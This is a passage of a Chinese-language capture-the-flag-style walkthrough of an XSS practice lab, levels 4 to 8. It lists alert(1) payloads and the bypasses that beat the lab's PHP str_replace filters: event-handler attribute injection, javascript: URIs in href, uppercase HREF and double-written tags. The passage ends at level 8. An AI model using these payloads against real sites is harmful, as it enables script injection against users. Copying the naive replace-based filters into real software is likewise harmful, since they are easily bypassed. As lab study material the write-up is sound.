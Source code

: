 `javascript:alert(1)` 使用了java伪协议，就是把`javascript:` 后面的代码当JavaScript来执行
` onmouseover=javascript:alert(1) `
` onfocus=javascript:alert(1) `

**level4**  
payload打进去，回显`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`
把`<`给过滤了，双引号没过滤，把上一个代码改一下扔进去试试，合理
`" onmouseover=javascript:alert(1) "`

**level5**  
老规矩，输入payload，返回`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`，
而且输入框中变成了`<scr_ipt>alert(1)</scrpit>`，
输入`">" onmouseover=javascript:alert(1) "`，发现变成`" o_nmouseover=javascript:alert(1) ""> `

正确思路是可以利用 JavaScript 的 URI
`<a href=javascript:alert(1)>hack</a>`

`<a>`标签后面的href不一定非要跟url，还可以是URI，可以视为 URL 的超集，后面跟`javascript`就可以执行后面的内容，`mailto`就会去打开邮件去发信息，所以可以借助这个运行js代码
`"> <a href=javascript:alert(1)>hack</a>`

**level6**  
尝试payload，发现变成`<scr_ipt>alert(1)</scrpit>`，尝试5的payload，发现变成`<a hr_ef=javascript:alert(1)>hack</a>">`，发现href被过滤了，课源码，

```
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```

发现过滤了五个东西，可以利用html的特性，HREF和href的效果是一样的，大小写不会区分
`"> <a HREF=javascript:alert(1)>hack</a>`

**level7**  
尝试输入payload，发现回显`<>alert(1)</scrpit>`，整个被替换为空了，那么6的payload当然不能使用了，看题目源码
```
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```

果然全部换为空，但是php特性，替换只会替换一个，比如`<scriscriptpt>`就会被替换为`<script>`，这就是双写绕过？
`"> <scriscriptpt>alert(1)</scriscriptpt>`

**level8**  
尝试原始payload，发现会被替换`<scr_ipt>alert(1)</scr_ipt>`，并且是链接形式，好像没啥区别，看源码
```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
